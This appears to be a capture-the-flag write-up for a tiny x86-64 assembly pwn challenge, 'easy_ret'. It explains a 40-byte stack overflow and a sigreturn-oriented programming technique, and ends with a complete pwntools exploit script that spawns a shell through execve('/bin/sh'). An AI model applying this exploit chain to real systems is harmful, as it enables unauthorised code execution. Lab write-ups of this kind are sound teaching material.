





# WriteUP for easy_ret! or is it ? 

This challenge comes with a very basic Assembly program containing very little instructions.
This was made voluntarily as to make ROP harder !

## Info Gathering

As per usual when approaching a pwn challenge, we should check
what kind of protections are applied to this binary

  

In our case we only have NX, which makes our stack **NON EXECUTABLE** meaning no ret2shellcode in this challenge.

Running the binary we get prompted with the message
`This is my perfect assembly program ! Good luck hacking it lol`
after which the program takes our input. Doing a very classical approach we can try to put a very large amount of data and it's input and see that it causes a **SEGFAULT**  



This is a very big sign of a **buffer overflow** vulnerability. Considering that this challenge does have **NX** on tho, we will have to use some [Return Oriented Programing](https://en.wikipedia.org/wiki/Return-oriented_programming) knowledge to help us out here.  

## Source code analysis

As mentionned earlier, this challenge is PURELY assembly meaning no libc to help us here ! Looking at the source code in radare2 we get the following : 



This code does some pretty weird stuff, like clearing the registers for no apparent reasons in a function made for that specific use... Maybe it'll come handy for later tho ! (foreshadowing)  

The main function where most of the activity seems to be centered is the **super_program** function which does exactly what we would expect from our testing :
- Writes the message we got when running the binary to the console
- Reads 1280 bytes into a 32 bytes buffer resulting in a massive buffer overflow

However there's bad news. This binary is VERY small meaning very little gadgets to work with for our ROP payload...
That's when [SigReturn Oriented Programming](https://en.wikipedia.org/wiki/Sigreturn-oriented_programming) comes to the rescue !  

Anyways, let's find out the offset to RIP in this scenario. We can calculate by reading the source code or by using some cyclic string tool like the one in gdb-pwndbg. In this case i'll show how to do both:
1. We can calculate the offset from the source code as we can see that the **super_program** function allocates 32 bytes on the stack for our buffer and 
8 bytes are used to store RBP because of the `push rbp` instruction at the start of the function. Therefore 32 + 8 = 40, So a 40 byte offset before we overwrite RIP.

2. Just run the program in gdb and send a cyclic that we can generate using commands like `cyclic 100`. After sending our big cyclic, the program will segfault and return to some value corresponding to our cyclic. We can copy that value and pass it in `cyclic -l <value>` to get the corresponding offset:



## Exploit Idea

Using the **sigreturn** syscall we can load a so called "Sigreturn Frame" from the stack. The Sigreturn Frame structure holds a "screenshot" of a state of the registers making us able to create a "fake" Sigreturn Frame struct and control ALL the registers despite our very small amount of gadgets.

The only thing we need to do to make this work is control **RAX**, the register used, in x64, to specify the code of our syscall.
Sigreturn is syscall n°15 so we have to make it so that somehow RAX is set to 15 when returning to a `syscall` gadget.  

The trick here is to use the fact that we have a `xor rax, rax; ret` gadget in the aforementionned **clear_registers** function. This will allow us to
make a syscall to read (since read is syscall n°0) and a very important property of read is that it returns the amount of data it read from the input into **RAX**. So theoretically we could make a read syscall and send 15 bytes in order to set RAX=15 and then directly return to the syscall gadget AGAIN to trigger **sigreturn**.

Then we could trigger a syscall to `execve` to pop a shell. But hold on ! We need a "/bin/sh" string to pass as argument for execve... Luckily this challenge is a bit nicer on that part as I manually put a "/bin/sh" string inside of the binary at a symbol called *secret* which can be easily found with reversing tools or simply the `strings` command. Note that it is STILL possible to exploit the binary without the string and I also made a "revenge" challenge called `easy_ret_revenge` without the /bin/sh string to show how that can still be possible.

# Exploitation

Alright so first of all let's make a little TO-DO List to remember what we want to do :
1. Get our gadgets, we will need:
    - xor rax, rax; ret 
    - syscall; ret
2. use xor rax to set rax=0 and then jump to a syscall gadget to trigger a read syscall.
3. Send 15 bytes to make read() return 15 into RAX
4. Return to the syscall gadget again thus triggering a sigreturn syscall
5. Add our own fake Sigreturn Frame so that the sigreturn call will make us jump to a state that will run `execve("/bin/sh", NULL, NULL)`
6. Enjoy our shell :D

```py
#!/usr/bin/env python3

from pwn import *
from time import sleep

context.log_level = 'error'
context.binary = elf = ELF('../chall')

gs = """
b *super_program
continue
"""
if args.REMOTE:
    io = remote("localhost", 9000) # connects to docker, replace with actual remote if needed
elif args.GDB:
    io = gdb.debug(elf.path, gdbscript=gs)
else:
    io = process()

context.log_level = 'info'

syscall = 0x401012  # syscall; ret
zero_rax = 0x401058 # xor rax, rax; ret
binsh = elf.sym.secret # string containing /bin/sh stored in the binary

offset = 40
payload = flat({offset: [
    zero_rax,
    syscall,
    syscall
]})

info("triggering read syscall with 15 chars to populate rax=15 -> sigreturn syscall")

frame = SigreturnFrame()
frame.rax = 0x3b # execve syscall is number 59 or 3b in hex
frame.rdi = binsh # the address of our /bin/sh string
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall
payload += bytes(frame)
info("Pushing execve(\"/bin/sh\", NULL, NULL) sigreturn frame on the stack.")

io.sendline(payload)
sleep(0.5)
io.send(b'A'*15)

context.log_level = 'error'
io.interactive(prompt="shell> ")
io.close()
```

This is the final exploit I came up with doing all of these steps one at a time !
*Note: I had to use sleep() calls because if we ran this too quickly some inputs would get mixed up with each other and the payload wouldn't trigger properly*

When running this exploit script on the remote docker we get the following:
